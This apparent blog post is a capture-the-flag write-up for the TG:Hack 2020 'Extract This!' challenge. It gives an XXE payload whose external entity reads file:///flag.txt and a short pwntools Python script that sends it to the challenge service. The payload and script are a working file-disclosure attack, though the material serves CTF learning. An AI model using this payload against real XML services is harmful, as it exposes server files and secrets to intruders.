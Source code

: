 ```yaml
---
layout: post
title: TG:Hack CTF 2020 - Extract This!
---
```


> One of our agents managed to install a service on MOTHER's network. We can use it to extract secrets, but she didn't tell me how! Can you figure it out?
>
> nc extract.tghack.no 6000

## Analysis

Target service requires us to provide XML document.

{% highlight shell_session %}
$ nc extract.tghack.no 6000
Connecting to the service

Welcome to this absolutely not suspicious XML element extractor!


Please enter your XML here:
{% endhighlight %}

Simple XXE vulnerabilty that can be exploited here by sending following payload:

{% highlight shell_session %}
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE x [
      <!ENTITY xxe SYSTEM "file:///flag.txt">
      ] >
<site>
    <vuln>&xxe;</vuln>
</site>
{% endhighlight %}

## Full exploit 

{% highlight python %}
#!/usr/bin/env python3

from pwn import *

io = start()
io.recvuntil("Please enter your XML here:\n")

payload = (
"""
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE x [
      <!ENTITY xxe SYSTEM "file:///flag.txt">
      ] >
<site>
    <vuln>&xxe;</vuln>
</site>
"""
).replace("\n", "")
io.sendline(payload)

io.interactive()
{% endhighlight %}

[repo]: https://github.com/r0ck3tz/ctfs/tree/master/2020/tghack/extract-this
